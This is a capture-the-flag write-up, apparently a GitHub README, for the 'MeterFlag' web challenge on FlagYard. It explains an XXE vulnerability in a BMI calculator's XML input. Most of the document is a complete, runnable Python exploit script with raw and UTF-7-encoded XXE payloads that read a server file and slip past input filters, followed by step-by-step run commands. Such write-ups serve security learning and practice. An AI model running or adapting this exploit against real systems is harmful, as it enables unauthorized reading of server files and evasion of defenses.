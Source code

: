 #"MeterFlag" Challenge (80 Points)

## Challenge Overview

This writeup provides an automated solution to the **"MeterFlag"** challenge, which is worth 80 points in the **web category** on the FlagYard platform. The challenge involves exploiting an **XML External Entity (XXE)** vulnerability to retrieve a sensitive file (`/app/flag.txt`) from the server using **UTF-7 encoding** to bypass security restrictions.

The Python script included here automates this process, enabling the exploitation of the XXE vulnerability by encoding the malicious payload in UTF-7 and retrieving the flag from the target server.

## Vulnerability

The target application is a **BMI calculator** that accepts user inputs in XML format. Upon reviewing the request, it becomes clear that the server might be vulnerable to an **XXE (XML External Entity)** injection, allowing us to attempt retrieving sensitive files from the server, such as the `flag.txt` file.

### Payload Strategy

To exploit this vulnerability, we will:
1. Inject a crafted XML payload that includes an external entity pointing to the file we want to access.
2. Encode the payload in **UTF-7** to bypass server-side filters.
3. Send the payload via a **POST** request to the application.
4. Capture and print the contents of the file (i.e., the flag) returned by the server.

## Exploit Automation

The following Python script automates this entire process, making it simple to exploit the vulnerability by just providing the base URL of the target application.

### Python Script

```python
import requests
import sys


def exploit_xxe(base_url):
    # Step 1: Prepare the original XXE payload
    original_payload = """<!DOCTYPE data [
      <!ENTITY xxe SYSTEM "/app/flag.txt">
    ]>
    <data>
      <weight>&xxe;</weight>
      <height>170</height>
    </data>"""

    print("[+] Original XXE Payload:")
    print(original_payload)

    # Step 2: Encode the payload in UTF-7
    utf7_payload = """<?xml version="1.0" encoding="UTF-7"?>
    +ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///app/flag.txt+ACI-+AD4-+ACA-+AF0-+AD4-+AA0-+AAo-
    +ADw-data+AD4-+ADw-weight+AD4-+ACY-xxe+ADs-+ADw-/weight+AD4-+ADw-height+AD4-170+ADw-/height+AD4-+ADw-/data+AD4-"""
    print("[+] UTF-7 encoded XXE Payload:")
    print(utf7_payload)
    # Step 3: Set headers for the request
    headers = {
        'Content-Type': 'application/xml',  # Since it's XML data
    }

    # Step 4: Send the request to the target URL
    target_url = f"{base_url}"

    print(f"[+] Sending XXE payload to {target_url}...")

    # Step 5: Send the UTF-7 encoded payload as a POST request
    response = requests.post(target_url, headers=headers, data=utf7_payload)

    # Step 6: Check the response for the flag
    if response.status_code == 200:
        print("[+] Exploit successful! Flag retrieved:")
        print(response.text)
    else:
        print(
            f"[-] Failed to retrieve the flag. Status Code: {response.status_code}")
        print(response.text)


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python exploit_xxe.py <base_url>")
        sys.exit(1)

    base_url = sys.argv[1]
    exploit_xxe(base_url)
```

### Steps for Running the Script:

1. **Pre-requisites**: Ensure you have Python 3 and the `requests` library installed.
   - Install `requests` by running:
     ```bash
     pip install requests
     ```

2. **Save the Script**: Save the script to a file, e.g., `exploit_xxe.py`.

3. **Run the Script**: Execute the script with the target URL as a parameter.
   ```bash
   python exploit_xxe.py http://target-bmi-calculator.com
   ```

4. **Flag Retrieval**: If the server is vulnerable, the script will display the contents of the `flag.txt` file, i.e., the flag for the challenge.

## Key Concepts in the Script

### 1. **XXE Injection**
The script uses **XML External Entity (XXE)** injection to load an external file on the server (`/app/flag.txt`). The payload defines a `SYSTEM` entity that references the file location.

### 2. **UTF-7 Encoding**
The payload is encoded in **UTF-7** to evade potential filters or protections that may prevent standard XXE payloads from being processed. This encoding method allows us to sneak the malicious payload past basic XML validation.

### 3. **Automating Exploitation**
The script automates the process of sending the encoded XML payload to the target server using a **POST** request with the appropriate headers and payload, then retrieves and prints the server’s response.

## Conclusion

This script provides a fast and efficient way to exploit the **XXE vulnerability** in the **MeterFlag** challenge on FlagYard, worth 80 points. By automating the injection process and using **UTF-7** encoding to bypass security, the flag can be retrieved with minimal effort.
